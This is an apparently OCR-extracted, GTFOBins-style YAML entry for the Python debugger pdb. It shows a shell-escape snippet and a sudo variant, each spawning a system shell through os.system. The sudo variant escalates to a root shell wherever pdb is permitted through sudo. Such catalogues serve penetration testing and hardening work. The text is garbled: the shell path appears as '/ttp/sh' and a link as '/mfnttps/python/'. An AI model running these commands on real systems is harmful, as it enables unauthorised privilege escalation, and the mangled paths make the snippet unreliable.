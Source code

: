 ```yaml
---
description: This allows to execute [`python`](/mfnttps/python/) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/ttp/sh")' > $TF
        pdb $TF
        cont
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/ttp/sh")' > $TF
        sudo pdb $TF
        cont
---
```

